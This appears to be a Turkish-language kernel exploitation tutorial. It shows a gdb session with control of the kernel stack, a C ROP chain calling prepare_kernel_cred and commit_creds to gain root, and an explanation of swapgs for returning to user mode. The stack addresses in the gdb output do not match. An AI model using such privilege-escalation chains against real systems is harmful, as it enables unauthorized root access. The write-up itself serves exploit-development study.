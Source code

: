 ```
0xffffffff81154d2b in ?? ()
(gdb) si
0xffffffff81154d30 in ?? ()
(gdb) si
0xffffffff81154d31 in ?? ()
(gdb) x/10i $rip
=> 0xffffffff81154d31:	pop    %rbp
   0xffffffff81154d32:	ret
   0xffffffff81154d33:	nopl   (%rax)
   0xffffffff81154d36:	cs nopw 0x0(%rax,%rax,1)
   0xffffffff81154d40:	push   %rbp
   0xffffffff81154d41:	mov    %rsp,%rbp
   0xffffffff81154d44:	push   %r13
   0xffffffff81154d46:	push   %r12
   0xffffffff81154d48:	push   %rbx
   0xffffffff81154d49:	mov    0x1020(%rdi),%r12d
(gdb) p/x $rsp
$2 = 0x7ffc3772e720
(gdb) x/10gx $rsp
0x7ffeb96d5ee0:	0x0000000000000042	0x0000000000000000
0x7ffeb96d5ef0:	0x0000000000000000	0x0000000000000000
0x7ffeb96d5f00:	0x0000000000000000	0x0000000000000000
0x7ffeb96d5f10:	0x0000000000000000	0x0000000000000000
0x7ffeb96d5f20:	0x0000000000000000	0x0000000000000000
```

# Exploit
Artık stack'i kontrol ettiğimize göre, ROP gerçekleştirebiliriz. Tabi en son user-mode'a dönmemiz gerekecek. Fakat öncesinde,
kernel'den ayrılmadan root almamız lazım.

Bunun için önce `prepare_kernel_cred()`i çağırıp, dönüş değeri ile `commit_creds()`i çağırmamız lazım, bunun için, `vmlinux`dan çıkardığımız
gadgetlar ile bir ROP oluşturup, exploit'imizde, stack'e ekleyebiliriz:
```c
stack[i++] = 0xffffffff810d238d;  // pop rdi ; ret
stack[i++] = 0;                   // rdi
stack[i++] = PREPARE_KERNEL_CRED; // prepare_kernel_cred()
stack[i++] = 0xffffffff8133b32e;  // mov rdi, rax ; mov rax, rdi ; pop rbx ; pop rbp ; ret
stack[i++] = 0;                   // rbx
stack[i++] = 0;                   // rbp
stack[i++] = COMMIT_CREDS;        // commit_creds()
```
Şimdi user-mode'a dönme zamanı. Bunu yapmak aslında çok zor değil, fakat öncesinde, kernel'in user-mode ile kernel-mode arasında
geçiş yaparken, GS register'ını değiştirmemiz gerekecek. `swapgs` instrunction'ı bunun için kullanılıyor.

Basitçe `swapgs`i çağırdığınızda, işlemci GS'i özel bir model-spesifik register'a (MSR) saklıyor. Linux bu özelliği işlemcinin durumuna özel bazı şeyleri
tutmak için saklıyor. Bu sebepten ötürü, her kernel ve user mod arasında geçiş yaparaken, kernel `swapgs` çalıştırıyor. Bizim bu noktada, user-mode'a geri
dönmek için `swapgs` çalıştırmamıza gerek yok, ancak bu durumda aynı işlemci çekirdeği, tekrar kernel-mode'a geçiş yaptığında, kernel `swapgs` çalıştırıp
bu işlemci durumu hakkındaki bilgilere GS ile erişmeye çalışacağından, biz şuan `swapgs` çalıştırmazsak, istemeden user-mode GS register'ını kullanacaktır.

